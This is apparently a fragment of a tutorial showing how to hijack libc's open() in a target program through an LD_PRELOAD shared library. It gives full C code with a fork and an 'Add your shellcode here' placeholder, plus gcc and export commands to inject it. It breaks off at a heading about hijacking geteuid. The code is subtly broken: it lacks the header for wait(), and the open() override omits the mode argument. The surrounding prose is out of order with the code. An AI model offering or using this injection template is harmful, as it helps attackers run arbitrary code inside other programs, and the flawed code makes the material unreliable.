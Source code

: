 1. **Create the Hijacking Shared Library**

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <unistd.h>
#include <fcntl.h>

int (*old_open)(const char *pathname, int flags);

int open(const char *pathname, int flags) {
    if (fork() == 0) {
        // Child process: execute shellcode or custom logic
        printf("Hijacked open() called for file: %s\n", pathname);
        // Add your shellcode here or custom logic
        _exit(0);
    } else {
        // Parent process: wait for child to complete
        wait(NULL);
        // Call the original open function
        return old_open(pathname, flags);
    }
}

void __attribute__((constructor)) init(void) {
    old_open = dlsym(RTLD_NEXT, "open");
    if (!old_open) {
        fprintf(stderr, "Error: %s\n", dlerror());
        exit(EXIT_FAILURE);
    }
    printf("Hijack library initialized.\n");
}
```

2. **Compile the Shared Library**

```sh
gcc -shared -fPIC -o hijack_open.so hijack_open.c -ldl
```

3. **Use `LD_PRELOAD` to Inject the Shared Library**

```sh
export LD_PRELOAD=/path/to/hijack_open.so
./target_program
```

Here's a C code example to hijack the `geteuid` function using `LD_PRELOAD`. This example demonstrates how to intercept the `geteuid` function call, use `fork()` to execute custom logic in a child process, and return the original function's result in the parent process.

### Hijacking `geteuid` Function
